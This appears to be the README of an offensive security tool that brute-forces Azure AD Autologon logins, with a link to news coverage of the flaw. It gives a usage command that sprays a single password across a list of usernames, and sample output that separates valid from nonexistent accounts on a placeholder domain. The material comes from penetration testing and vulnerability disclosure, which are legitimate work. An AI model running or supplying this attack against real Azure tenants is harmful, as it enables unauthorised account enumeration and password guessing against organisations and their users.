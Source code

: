 # AzureAD_Autologon_Brute
Brute force attack tool for Azure AD Autologon 

https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/


```
Usage:
python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
```


```
[~/deuce/azuread_autologon] # python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
Domain is  intranet.directory
Setting password as: Password1
Reading users from file: users.txt

+-----------------------------------------+
|          AzureAD AutoLogon Brute          |
|     2021.09.30 @nyxgeek - TrustedSec      |
+-----------------------------------------+

[-] Username not found:wumpus@intranet.directory:Password1
[+] VALID USERNAME, invalid password :stephen.falken@intranet.directory:Password1
[-] Username not found:grand.poobah@intranet.directory:Password1
[-] Username not found:thewiz@intranet.directory:Password1
[-] Username not found:bingobongo@intranet.directory:Password1
[-] Username not found:administrator@intranet.directory:Password1
[+] VALID USERNAME, invalid password :david.lightman@intranet.directory:Password1
[-] Username not found:fakeuser123@intranet.directory:Password1
[+] VALID USERNAME, invalid password :nyxgeek@intranet.directory:Password1
[-] Username not found:jabberwocky@intranet.directory:Password1

```
